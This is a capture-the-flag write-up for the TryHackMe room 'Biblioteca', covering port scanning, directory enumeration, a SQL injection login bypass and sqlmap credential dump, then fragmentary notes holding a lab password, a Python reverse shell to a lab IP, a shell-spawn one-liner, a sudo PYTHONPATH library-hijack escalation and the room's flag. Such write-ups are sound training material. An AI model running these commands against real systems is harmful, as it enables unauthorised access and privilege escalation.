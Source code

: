 # TryHackMe Biblioteca Writeup

This is my write up for the TryHackMe room [Biblioteca](https://tryhackme.com/room/biblioteca).


We start up the machine and we can start with a nmap scan.

`nmap -sC -sV <IP Address>`

![NmapScanBiblio](/THM/Images/thmbiblionmap.jpg)

This provides us with two open ports.

- SSH port 22
- HTTP port 8000

We a login page on the landing. First thing to do is to find there any other folders or pages we can access. For that we can enumerate using `gobuster`

![BiblioTHMLandin](/THM/Images/thmbibliohttplanding.jpg)

This are the results from `gobuster` enumeration. The command used was.

`gobuster dir -u http://<IP ADDRESS> -w /usr/share/wordlists/dirb/common.txt`

![BiblioGobuster](/THM/Images/thmbibliogobuster.jpg)

We can create an user it just takes to an index page with only an option to logout.

If we try `1' or '1'='1';-- -` , we can see that the login form is vulnerable to SQL injection.

We can then use `sqlmap` to extract table data.

`sqlmap -u http://<IP ADDRESS>:8000/login --data='username=''&password=''' --current-user --dump`

Breaking down the command 

```bash 
-u http://<IP ADDRESS>:8000/login  # the flag refers to the target URL
--data= 'username=''&password=''' # Data string to be sent through POST (e.g. "id=1")
--current-user --dump # --current-user Retrieve DBMS current user --dump DUMP DMBS Database table entries.
```

This provides ust the following table.

![BiblioSQLMAPresults](/THM/Images/thmbibliosqlmap.jpg)

The top result gives us user 1 password, the other result is from the user we created.

We can now try the password found with the username to SSH into the machine. 

Excellent we are in. We can see that the user `smokey` has really limited surface points to privilege escalation. Let's see what other users have 


@reboot /usr/bin/python3 /var/opt/app/app.py
sqlmap -u http://10.10.218.78:8000/login --data='username=''&password=''' -D --dump --level=1

My_P@ssW0rd123

import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.4.56.213",9000))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1) 
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])


python3 -c 'import os; os.system("/bin/sh")'

hazel has a weak password. can be broken with hydra or guessed. hazel


 sudo PYTHONPATH=/tmp/ /usr/bin/python3 /home/hazel/hasher.py


python library hijacking

THM{PytH0n_LiBr@RY_H1j@acKIn6}